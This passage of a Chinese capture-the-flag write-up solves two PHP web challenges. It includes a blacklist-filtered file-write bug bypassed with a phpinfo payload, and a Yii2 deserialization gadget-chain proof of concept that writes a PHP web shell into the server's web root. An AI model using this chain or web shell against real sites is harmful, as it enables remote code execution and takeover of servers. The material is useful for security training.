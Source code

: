 
$hack=fopen("hack.php","w") or die("Unable 2 open");

$a=$_GET['code'];

if(preg_match('/system|eval|exec|base|compress|chr|ord|str|replace|pack|assert|preg|replace|create|function|call|\~|\^|\`|flag|cat|tac|more|tail|echo|require|include|proc|open|read|shell|file|put|get|contents|dir|link|dl|var|dump/',$a)){
	die("you die");
}
if(strlen($a)>33){
	die("nonono.");
}
fwrite($hack,$a);
fwrite($hack,$I_know_you_wanna_but_i_will_not_give_you_hhh);

fclose($file);
fclose($hack);
?>
又到了熟悉的payload时间：/?code=<php%20phpinfo();?>

然后访问hack.php再次查看info，搜索flag直接得

flag{5bd378f8-2acd-4f94-8d95-531be33aba1a}

##  web2 framework

题目是yii2反序列化，百度搜素相关资料进行复现再回到题目，老套路扫目录发现了www.zip

下载到本地正好是源码，就直接本地搭环境，按照教程进行复现（这里附上）

https://mp.weixin.qq.com/s?__biz=MzU5MDI0ODI5MQ==&mid=2247485129&idx=1&sn=b27e3fe845daee2fb13bb9f36f53ab40

在controllers下创建php，再建个poc.php,里面写上

<?php
namespace yii\rest{
    class CreateAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'assert';
            $this->id = 'file_put_contents("/var/www/html/web/1.php","<?php eval(\$_POST[111]);");';
        }
    }
}
namespace Faker{
    use yii\rest\CreateAction;

    class Generator{
        protected $formatters;
    
        public function __construct(){
            $this->formatters['close'] = [new CreateAction(), 'run'];
        }
    }
}
